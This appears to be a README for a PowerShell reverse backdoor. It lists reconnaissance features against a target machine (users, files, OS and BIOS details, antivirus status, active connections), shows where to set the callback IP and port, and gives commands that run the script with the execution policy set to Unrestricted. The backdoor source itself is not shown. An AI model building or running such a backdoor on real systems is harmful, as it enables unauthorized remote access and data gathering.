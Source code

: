 # powershell-backdoor
A simple Powershell Reverse Backdoor

# Features / To Do
## Features 
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Get OS Information
* Get BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
* Checks for common pentesting software installed
## To Do 
* Download Files from remote system
* Find Writeable Directories
* Get Windows Update Status

# Setup
Find the class Backdoor, and change the following lines 
```powershell
class Backdoor {
  # Change this to the correct ip/port
  [string]$ipAddress = "127.0.0.1"
  [int]$port = 4444
```

# Execution
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```
